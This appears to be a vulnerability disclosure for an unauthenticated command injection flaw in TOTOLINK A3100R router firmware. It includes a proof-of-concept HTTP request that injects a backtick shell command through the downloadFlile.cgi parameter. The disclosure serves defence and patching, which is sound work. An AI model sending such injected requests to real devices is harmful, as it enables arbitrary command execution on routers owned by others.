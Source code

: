 # TOTOLink A3100R V4.1.2cu.5050_B20200504 Has an command injection vulnerability

## Overview

- **Type**: command injection vulnerability
- **Vendor**: TOTOLINK (https://www.totolink.net/)
- **Products**: WiFi Router, such as A3100R V4.1.2cu.5050_B20200504 ，V5.9c.2280_B20180512，V5.9c.4577_B20191021，V5.9c.4050_B20190425，V5.9c.4281_B20190816，V4.1.2cu.5050_B20200504，V5.9c.4050_B20190425_transition,V4.1.2cu.5050_B20200504
- **Firmware download address:** https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/170/ids/36.html



## Description

### 1.Product Information:

TOTOLink A3100R router, the latest version of simulation overview：

![Figure 1 Update date of the latest version of the firmware](images/image-20220212023224337.png)

The latest firmware update to 2020-07-28 (The latest version on the official website)

### 2. Vulnerability details

TOTOLINK A3100R V4.1.2cu.5050_B20200504 was discovered to contain a command injection vulnerability in the "Main" function. This vulnerability allows attackers to execute arbitrary commands via the QUERY_STRING parameter.

![Figure 2 Local of the vulnerability](images/image-20220212024252932.png)

We can see that the os will get ` QUERY_STRING`  without filter splice to the string `echo QUERY_STRING:%s >/tmp/download` and execute it. So, If  we can control the `QUERY_STRING`, it can be command injection.

## 3. Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
GET /cgi-bin/downloadFlile.cgi?payload=`ls>../1.txt` HTTP/1.1 
Host: 192.168.111.12 
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Connection: keep-alive 
Upgrade-Insecure-Requests: 1 
Cache-Control: max-age=0
```

![Figure 3 POC attack effect](images/22.png)

as shown in the figure below, there is no web login

![Figure 4 POC attack effect](images/33.png)

